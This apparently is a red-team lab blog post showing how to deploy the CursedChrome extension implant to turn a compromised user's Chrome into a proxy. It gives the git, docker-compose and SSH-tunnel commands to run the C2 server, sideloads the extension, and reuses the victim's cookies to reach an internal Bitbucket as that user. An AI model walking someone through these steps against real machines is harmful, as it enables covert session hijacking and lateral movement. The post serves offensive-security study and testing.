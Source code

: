 ```yaml
---
layout: post
title: "2024-06-18-man in the browser via chrome extension"
date: 2024-06-18
categories: lateral-movement
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /man-in-the-browser-via-chrome-extension/
---
```


# Man-in-the-Browser via Chrome Extension

## Overview

This is a quick lab to familiarize with a [CursedChrome](https://github.com/mandatoryprogrammer/CursedChrome) Chrome extension, which at a high level works in the following way:

1. CursedChrome extension is added to Chrome on a compromised computer;
2. Compromised computer's Chrome connects back to an attacker controlled CursedChrome C2 server. Comromised computer's Chrome now acts as a proxy into the compromised network;
3. Attacker can now proxy web requests through the compromised computer's Chrome and reach any internal web application that the compromised user/computer can access.

The beauty of this technique is in the fact that the attacker's web requests leverage cookies stored in the compromised Chrome browser, which means that if a compromised user is logged on to some web application the attacker is interested in, the attacker no longer requires to authenticate to that application in order to access it as their HTTP request will re-use the existing cookies from the compromised Chrome and will be let in without being asked to provide credentials.

The extension [author](https://github.com/mandatoryprogrammer) visualizes the whole process like so:

![Source: https://github.com/mandatoryprogrammer/CursedChrome](<../../.gitbook/assets/image (1072).png>)

## Environment

Below is a list of systems involved in this lab:

* 18.130.61.92 - CursedChrome C2 server;
* 10.0.0.7 - attacker computer `WS01`;
* x.x.x.x - compromised computer in some other network outside the `WS01` computer's network.

## Setup

### CursedChrome C2 Server

On the CursedChrome C2 server, pull the CusedChrome git repo, enter it and spin up the CursedChrome server using `docker-compose` with the following commands:

```bash
git clone https://github.com/mandatoryprogrammer/CursedChrome.git /opt/
cd /opt/CursedChrome
docker-compose up -d redis db
docker-compose up cursedchrome
```

After running the above `docker-compose`, you should see the below screen:

![CursedChrome C2 server installed and configured](<../../.gitbook/assets/image (1066).png>)

Save the username and password for later as these will be required when connecting to the CursedChrome C2 web console:

```
USERNAME: admin
PASSWORD: 9iax0t2gpbd9skqf0p2z8ry53k9s144x
```

Additionally, note that the CursedChrome's web console is listening on `127.0.0.1:8118` and HTTP proxy on `127.0.0.1:8080` - we will need these later, when setting up local SSH tunnels, so that we can access these services from the attacking machine `WS01`.

### Compromised Computer with CursedChrome Implant

On a compromised computer, we need to install the CursedChrome implant.&#x20;

It's up to you how you will do it, but for the demo purposes, I simply enabled `Developer mode` and clicked `Load unpacked` and pointed it to the `.\extension` folder from the CursedChrome's repo. The extension is now installed:

![CursedChrome installed in to Chrome](<../../.gitbook/assets/image (1068).png>)

### Attacker

On the attacker machine, let's set up a couple of local SSH tunnels.

#### SSH Tunnel for CursedChrome Web Console

In order to access the CursedChrome's C2 web console via `http://localhost:1111`, we need the following SSH tunnel to the CursedChrome's C2 server:

```
ssh ubuntu@18.130.61.92 -L1111:localhost:8118 -f -N
```

#### SSH Tunnel for CursedChrome HTTP Proxy

In order to proxy our HTTP traffic through the CursedChrome's C2 web proxy, using FoxyProxy, we need the following tunnel:

```
ssh ubuntu@18.130.61.92 -L2222:localhost:8080 -f -N
```

Once we have the tunnels setup, we can try accesing the web console by navigating to `http://localhost:1111` and if everything works, you should see a login panel:

![CursedChrome web console.](<../../.gitbook/assets/image (1067).png>)

Enter the admin credentials you got after setting up the CursedChrome server using `docker-compose` and you should now be logged on to the panel, where you will see a bot / compromised computer's CursedChrome extension calling back to the CursedChrome C2:

![CursedChrome web panel, logged in.](<../../.gitbook/assets/image (1069).png>)

Note the username and password of the bot as you will need it when configuring FoxyProxy.

#### Installing CursedChrome CA Certificate to FireFox

```
**Important**\
Do not forget to export the Proxy CA certificate (see the big download button below the connected bots panel) and install it to FireFox as this is required for the technique to work.
```

![Installing CursedChrome CA Certificate to FireFox](../../.gitbook/assets/install-cert.gif)

#### Configuring FireFox Extension FoxyProxy

Now we're ready to setup the FoxyProxy (FireFox extension).&#x20;

Proxy IP and port should be `127.0.0.1:2222` (remember, we set up a local SSH tunnel for this earlier) and username/password should be those seen in the "Connected bots" panel in the CursedChrome's C2 web console:

![ProxyFoxy configured to proxy traffic through the infected Chrome on a compromised computer](<../../.gitbook/assets/image (1070).png>)

Configure FireFox to use the FoxyProxy you just set up and you are ready to access some internal web application on a compromised computer's network, that otherwise would not be accessible to you.

## Moment of Truth

With all the setup completed, the below image shows how I'm able to access a Bitbucket on behalf of a compromised user `Mantvydas` without knowing their credentials on a network that is outside of the attacking VM `WS01`:

![Accessing Bitbucket via a compromised computer with CursedChrome extension installed on it](<../../.gitbook/assets/image (1074).png>)

## References

{% embed url="https://github.com/mandatoryprogrammer/CursedChrome" %}
@spotheplanet
